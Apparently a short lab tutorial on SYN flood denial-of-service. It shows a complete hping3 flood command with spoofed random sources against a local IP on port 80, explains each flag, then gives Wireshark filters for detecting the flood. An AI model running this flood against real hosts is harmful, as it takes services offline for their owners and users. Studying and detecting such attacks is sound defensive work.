 # Conducting & Detecting DDoS (SYN flood) Attacks
## Conducting DDoS Attacks

Load up kali linux:
Install hping3
	$ sudo apt-get install hping3

Direct the SYN flood attack
	$ hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.159
		-c 15000: number of packets we're sending is 15,000
		-d 120: size of the packets is 120 bytes
		-S: SYN flag enabled
		-w 64: TCP Window size is 64
		-p 80: victim's HTTP webserver port
		--flood: send packets as fast as possible
		--rand-source: generates spoofed IP addresses & stops the victim's SYN-ACK reply packets from reaching us

## Detecting SYN Flood Attacks

Load up wireshark:
	An attack will show a large amount of TCP traffic with little variance in time
Filter SYN packets without acknowledgement with:
	tcp.flags.syn == 1 and tcp.flags.ack == 0
Notice: the attacking IP addresses all target the same port (80)
Filter: tcp.flags.syn == 1 and tcp.flags.ack == 1:
	compare this normal traffic with that of the suspected attack traffic to determine volume of normal requests
Can view Wireshark's graph feature to look for abnormalcies 
